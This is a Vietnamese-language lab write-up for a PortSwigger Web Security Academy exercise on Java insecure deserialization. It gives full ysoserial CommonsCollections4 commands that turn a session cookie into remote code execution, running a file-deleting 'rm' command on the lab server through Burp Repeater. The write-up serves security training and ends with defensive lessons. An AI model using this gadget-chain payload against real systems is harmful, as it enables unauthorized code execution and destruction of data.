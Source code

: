 # Write-up: Exploiting Java deserialization with Apache Commons

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng Java, nơi cookie `session` chứa một Java serialized object được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách sử dụng tool `ysoserial` với gadget chain `CommonsCollections4`, kẻ tấn công tạo payload serialized để thực thi lệnh `rm /home/carlos/morale.txt`, thay thế cookie `session` và gửi request để kích hoạt RCE, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sử dụng `ysoserial` để tạo gadget chain `CommonsCollections4`, thực thi lệnh `rm /home/carlos/morale.txt` thông qua cookie `session`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- ysoserial

### Quy trình khai thác
1. **Quan sát cookie**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát cookie `session` trong Burp Proxy:  
  ```
  GET / HTTP/2
  Host: 0a7g005f06gh7890b0cd045600ef00cb.web-security-academy.net
  Cookie: session=rO0ABXQA...
  ```  
- **Phân tích cookie**:  
  - Cookie `session` là chuỗi Base64 của Java serialized object (bắt đầu bằng `rO0...`).  
  - Điều này cho thấy backend đang deserialize cookie để lấy object session.  
  - Nếu attacker chỉnh sửa object, server deserialize có thể trigger thực thi mã (RCE):  
    ![Cookie session Base64](./images/1_login.png)  

2. **Dùng ysoserial để tạo payload**  
- Công cụ `ysoserial` cung cấp gadget chain `CommonsCollections4`, tận dụng các lớp trong Apache Commons Collections (có sẵn trong ứng dụng) để thực thi lệnh khi deserialize.  
- Payload cần thực thi: `rm /home/carlos/morale.txt`.  
- **Trường hợp Java ≤ 15**:  
  ```
  java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
  ```  
- **Trường hợp Java ≥ 16** (có hạn chế module, cần thêm `--add-opens`):  
  ```
  java -jar ysoserial-all.jar \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     CommonsCollections4 'rm /home/carlos/morale.txt' | base64
  ```  
- **Kết quả**: Sinh ra chuỗi Base64 đại diện cho serialized object chứa gadget chain:  
  ```
  rO0ABXNy... (chuỗi Base64 dài, ví dụ)
  ```  
- **Giải thích payload**:  
  - Gadget chain `CommonsCollections4` sử dụng các lớp trong Apache Commons Collections để gọi `Runtime.getRuntime().exec("rm /home/carlos/morale.txt")` khi deserialize:  
    ![Payload ysoserial](./images/2_jar.png)  

3. **Thay session cookie**  
- Copy chuỗi Base64 từ `ysoserial`.  
- Trong Burp Repeater:  
  - Gửi request chứa cookie `session` bình thường:  
    ```
    GET / HTTP/2
    Host: 0a7g005f06gh7890b0cd045600ef00cb.web-security-academy.net
    Cookie: session=rO0ABXQA...
    ```  
  - Thay giá trị cookie bằng chuỗi Base64 từ `ysoserial`.  
  - URL-encode cookie để đảm bảo hợp lệ (thay `+` thành `%2B`, `/` thành `%2F`, `=` thành `%3D`):  
    ```
    Cookie: session=rO0ABXQA...%3D
    ```  
    ![Cookie được thay thế](./images/3_repeater.png)  

4. **Gửi request**  
- Gửi request qua Burp Repeater:  
  - Server nhận cookie, unserialize object, kích hoạt gadget chain `CommonsCollections4`.  
  - Payload `rm /home/carlos/morale.txt` được thực thi, xóa tệp `/home/carlos/morale.txt`.  
- Load lại trang trên trình duyệt để xác nhận:  
  - Lab xác nhận tệp bị xóa, hoàn thành lab:  
    ![Lab hoàn thành](./images/4_solved.png)  
- **Ý tưởng payload**:  
  - Sử dụng `ysoserial` với `CommonsCollections4` để tạo serialized object, thực thi lệnh `rm /home/carlos/morale.txt` khi server deserialize cookie.  

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong Java bằng cách sử dụng `ysoserial` với gadget chain `CommonsCollections4` để thực thi mã tùy ý (`exec`) thông qua cookie `session`.  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công RCE.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong Java với Apache Commons, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized và sử dụng các biện pháp kiểm tra an toàn để ngăn chặn thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*